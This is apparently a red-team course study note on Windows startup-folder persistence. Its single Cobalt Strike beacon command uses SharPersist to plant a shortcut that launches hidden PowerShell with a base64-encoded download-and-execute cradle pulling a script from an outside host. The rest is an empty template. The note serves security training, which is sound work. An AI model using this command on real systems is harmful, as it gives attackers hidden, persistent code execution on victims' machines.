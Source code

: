 
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. It's commonly used to bootstrap the user's home environment (set wallpapers, shortcut's etc).

### 🖊️ SharPersist

Adding powershell command as startup execution via sharPersist.exe:

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add
```

A file will be dropped named UserEnvSetup.lnk in this example.


## 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:23
🏷️ tags: #redteam #crto   
---

